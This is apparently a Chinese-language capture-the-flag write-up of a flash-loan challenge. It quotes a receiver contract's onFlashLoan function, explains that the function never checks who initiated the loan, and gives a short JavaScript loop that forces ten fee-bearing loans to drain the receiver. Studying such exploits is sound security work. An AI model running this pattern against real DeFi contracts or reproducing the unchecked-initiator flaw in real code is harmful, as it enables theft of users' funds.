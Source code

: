 ```js
    }
```

调用的接口：[ERC-3156: Flash Loans (ethereum.org)](https://eips.ethereum.org/EIPS/eip-3156)

该合约以固定的 1 ETH 费用提供闪电贷，然后闪电贷后，合约验证其更新的余额是否超过原始余额加上 1 ETH 费用

对于 FlashLoanReceiver.sol

```js
function onFlashLoan(  
    address,  
    address token,  
    uint256 amount,  
    uint256 fee,  
    bytes calldata  
) external returns (bytes32) {  
    assembly { // gas savings  
        if iszero(eq(sload(pool.slot), caller())) {  
            mstore(0x00, 0x48f5c3ed)  
            revert(0x1c, 0x04)  
        }  
    }  

    if (token != ETH)  
        revert UnsupportedCurrency();  

    uint256 amountToBeRepaid;  
    unchecked {  
        amountToBeRepaid = amount + fee;  //偿还贷款 + 1 ETH fee。  
    }  
    \_executeActionDuringFlashLoan();  

    // Return funds to pool  
    SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);  

    return keccak256("ERC3156FlashBorrower.onFlashLoan");  
}
```

我们看方法中的参数，可以发现第一个`address`未被使用，并且这是闪电贷发起账户的 msg.sender

并且对于上述两个合约代码，我们可以发现都没对函数进行检查

那么就导致了访问控制的问题了，我们可以用此账户来代表 FlashLoanReceiver(接收闪电贷的账户) 执行交易

那么我们就可以用 FlashLoanReceiver 中的 msg.sender 去执行 10 次 onFlashLoan 函数

Exp:

```js
// 10 transactions  
const ETH = await pool.ETH();  
for(let i = 0; i < 10; i++){  
    await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x"); //"0x" 作为一个空的十六进制字符串，只是为了符合 flashLoan 方法中的 data  
}
```
